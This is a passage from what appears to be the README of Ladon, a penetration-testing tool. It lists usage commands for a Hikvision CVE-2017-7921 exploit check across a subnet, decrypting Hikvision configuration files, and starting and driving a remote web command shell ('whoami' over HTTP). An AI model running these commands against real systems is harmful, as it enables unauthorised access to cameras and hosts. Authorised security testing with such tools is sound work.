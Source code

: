 ##### 223 hikvision 海康威视 CVE-2017-7921漏洞检测
```Bash
Ladon 192.168.1.8/24 HikvisionPoc
Ladon http://192.168.1.8:8080 HikvisionPoc
Ladon url.txt HikvisionPoc
```

##### 224 hikvision 海康威视 配置文件解密
```Bash
Ladon HikvisionDecode configurationFile
```

##### 225 Ladon测试专用CmdShell
```Bash
Ladon web 800 cmd
```

##### 226 连接测试专用CmdShell
```Bash
Ladon cmdshell http://192.168.50.2:888 cmd whoami
浏览器访问 http://192.168.1.8:800/shell?cmd=whoami
```

=======================================================

### Example

http://k8gege.org/Ladon/example-en.html

### Latest version
Latest version in small seal ring: http://k8gege.org/Ladon/update.txt
<div style="text-align: center; width: 710px; border: green solid 0px;">
<img alt="" src="http://k8gege.org/img/k8team.jpg" style="display: inline-block;width: 250px;height: 300px;" />
</div>

## Stargazers over time

[![Stargazers over time](https://starchart.cc/k8gege/Ladon.svg)](https://starchart.cc/k8gege/Ladon)

<img align='right' src="https://profile-counter.glitch.me/Ladon/count.svg" width="200">
